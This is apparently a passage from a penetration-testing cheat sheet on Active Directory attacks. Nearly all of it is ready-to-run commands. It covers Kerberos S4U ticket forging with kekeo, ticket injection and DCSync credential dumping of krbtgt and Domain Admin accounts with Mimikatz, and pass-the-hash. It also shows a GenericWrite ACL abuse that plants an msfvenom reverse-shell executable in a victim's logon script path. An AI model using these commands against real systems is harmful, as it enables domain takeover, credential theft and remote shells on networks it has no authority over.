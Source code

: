 ```
tgs::s4u /tgt:$TICKET /user:Administrator@DNS_DOMAIN_NAME /service:time/DNS_COMPUTER_NAME|ldap/DNS_COMPUTER_NAME
```
A new TGS Ticket kirbi file will appear in kekeo directory.
```
exit
```
Inject TGS with Mimikatz:
>May have to put mimikatz.ps1 and PowerView.ps1 file in this directory!
```
. .\invoke-mimikatz.ps1
```
```
Invoke-Mimikatz - Command '"kerberos::ptt $TGS_FILE"'
```
```
dir \\dc\C$
```
```
klist
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\krbtgt"'
```
```
. .\PowerView.ps1
```
```
Get-DomainGroupMember -SamAccountName 'Domain Admins'
```
$TARGET_USER Find a target from the list.
```
. .\invoke-mimikatz.ps1
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\$TARGET_USER"'
```
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:$TARGET_USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```
#### 87 ACL GenericWrite on User
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
[[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
Copy your current user's Security Identifier value:
```
Get-DomainUser -Name $USER
```
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```
We have generic write access to their account, therefore we can take over their account.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$FIRST_WINDOWS_TARGET LPORT=443 -f exe > privesc.exe
```
[[Python#Server]]
Transfer file over to Windows, set up share that everyone has access to reach this file.
```
Set-DomainObject -Identity $TARGET_USER -Set @{'scriptpath'='\\$HOST\$FOLDER\privesc.exe'}
```
```
```